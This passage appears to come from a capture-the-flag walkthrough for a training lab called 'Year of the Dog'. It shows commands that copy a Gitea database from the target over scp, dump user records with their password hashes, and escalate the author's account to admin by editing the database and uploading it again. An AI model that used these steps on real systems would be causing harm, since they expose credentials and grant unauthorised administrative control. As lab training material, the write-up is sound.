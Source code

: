 `scp -o MACs=hmac-sha2-256 dylan@yearofthedog.thm:/gitea/gitea/gitea.db /root/Desktop/CyberLearningFramework/yearofthedog`

```bash
dylan@yearofthedog.thm's password: 
gitea.db                                                                                                        100% 1184KB 172.3KB/s   00:06 
```

`sqlite3 gitea.db`

```bash
SQLite version 3.46.0 2024-05-23 13:25:27
Enter ".help" for usage hints.
sqlite> select * from user;
1|dylan|Dylan|Dylan Anderson|dylan@yearofthedog.thm|0|enabled|f2fd45caa2f5eae17cb5faa06eb57c4ad05532550fe37ae99e2245429757af09350be12abba616de4e8f0e37d223bd327261|argon2|0|0|0||0|||Rs6zSrVgx0|vkA9FTpZ72|en-US||1599331364|1599511857|1599511857|0|-1|1|1|0|0|0|1|0|8bb88c80301457422026e95699061e4a|dylan@yearofthedog.thm|1|0|0|0|1|0|0|0|0||gitea|0
2|overthenet|overthenet||overthenet@any.com|0|enabled|dfc5ca4a7f3a779832549afa9b793bf1765aeeecac86915e2d2a0c5cbb66cacc9b02038248c54bd42abdae5577a2af6f5379|argon2|0|0|0||0|||rZFx2HAswg|d4E4DZ3pDM|en-US||1726175190|1726175190|1726175190|0|-1|1|0|0|0|0|1|0|d7450bc367b3f8e3d7c6e2e59a30f843|overthenet@any.com|0|0|0|0|0|0|0|0|0||gitea|0
sqlite> select lower_name, is_admin from user;
dylan|1
overthenet|0
sqlite> UPDATE user SET is_admin=1 WHERE lower_name="overthenet";
sqlite> select lower_name, is_admin from user;
dylan|1
overthenet|1
```

`scp -o MACs=hmac-sha2-256 /root/Desktop/CyberLearningFramework/yearofthedog/gitea.db dylan@yearofthedog.thm:/gitea/gitea/gitea.db`

```bash
dylan@10.10.62.135's password: 
gitea.db                                               100% 1184KB  84.4MB/s   00:00 
```

![image.png](image%2013.png)
